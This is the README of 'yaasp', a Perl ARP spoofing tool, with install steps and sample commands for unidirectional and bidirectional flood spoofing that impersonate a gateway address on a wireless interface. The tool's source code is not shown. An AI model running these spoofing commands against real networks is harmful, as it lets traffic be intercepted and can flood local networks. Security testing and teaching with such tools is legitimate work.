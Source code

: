 yaasp
================

YAASP stands for Yet Another Arp Spoofing Program, this software can be used to perform 
flexible Arp Spoofing attacks.

### Installation of yaasp

In order to install yaasp, few dependencies are required, once we have access to a cpan (or cpanm) we do:

```sh
$ cd path/to/yaasp
```

Now we first install cpanminus, I report the command to do it on Debian based GNU/Linux distros:

```sh
$ sudo apt install cpanminus
```

```sh
$ cpanm --installdeps . 
```

### Usage Examples

Let's see some usage examples:

##### Simple Unidirectional ARP Spoof

```sh
$ perl yaasp.pl --tell-ip 192.168.1.105 --i-am 192.168.1.1 --interface wlan0 --delay 1
```

This will perform an unidirectional arp-spoofing with a delay between arp packets
of 1 second.


##### Bidirectional Flood ARP Spoof

```sh
$>perl yaasp.pl --tell-ip 192.168.1.105 --i-am 192.168.1.1 --interface wlan0 --bidirectional
```

This will perform a bidirectional arp-spoofing with a delay between arp packets,
if the --delay is not specified, then packets are sent without any delay,
notice that this will generate a lot of traffic on the network.


##### Show Help

```sh
$ perl yaasp.pl --help
``` 

This will show a help message, where possible options are shown.

